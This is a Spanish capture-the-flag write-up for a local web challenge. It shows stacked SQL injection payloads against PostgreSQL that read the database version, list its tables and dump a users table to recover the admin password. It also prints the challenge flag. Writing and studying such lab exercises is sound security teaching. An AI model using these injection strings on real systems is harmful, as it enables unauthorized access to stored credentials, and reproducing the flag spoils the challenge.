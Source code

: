 # Nombre: `Colores Favoritos`
### Dificultad: `Medium (🃏🃏🃏)`
### Categoría: `web`
### Autor: [a-maccormack](https://github.com/a-maccormack)
### Flag: `DCCTF{noob_x03659_W3B}`

### Descripción:
Los mejores hackers del mundo crearon una base de datos para guardar sus colores favoritos en `http://127.0.0.1:3000`. El problema es que al dueño del sitio se le olvidó la contraseña, y tiene una fila de hackers legendarios esperando para agregar sus colores favoritos. Podrás ayudarlos? Consigue la contraseña de admin y completa el desafío.

Usuarios:
- `Tflow`
- `satoshi`
- `Kingpin`
- `geohot`
- `snowden`
- `c0mrade`
- `admin`

# Solución:
La página contiene una vulnerabilidad de [inyección sql](https://www.youtube.com/watch?v=ciNHn38EyRc). Para determinar el tipo de base de datos que utiliza la página, primero debemos ejecutar comandos que [revelen la versión de la base de datos](https://portswigger.net/web-security/sql-injection/examining-the-database). En el caso del problema, el comando que se debe utilizar es `version()`, el cual revela que la base de datos es `PostgreSQL`

#### Input 1
```
'; SELECT version()  --
```

Luego debemos [determinar el nombre de la tabla](https://stackoverflow.com/questions/14730228/postgresql-query-to-list-all-table-names) que contiene la información de los usuarios que buscamos, por lo cual se deberá realizar un query que revele esta información:

#### Input 2
```
'; SELECT table_name  FROM information_schema.tables  WHERE table_schema='public' AND table_type='BASE TABLE'--
```

Este comando nos revela que hay una tabla llamada `users_usuarios`.

Sabiendo el nombre de la tabla, podemos utilizarlo para listar todos sus contenidos...

#### Input 3
```
'; SELECT * FROM users_usuarios; --
```

Esta query nos revela todos los usuarios y sus campos correspondientes. Podemos observar que el usuario `admin` tiene como contraseña `DCCTF{noob_x03659_W3B}`, lo cual corresponde a la flag para este problema.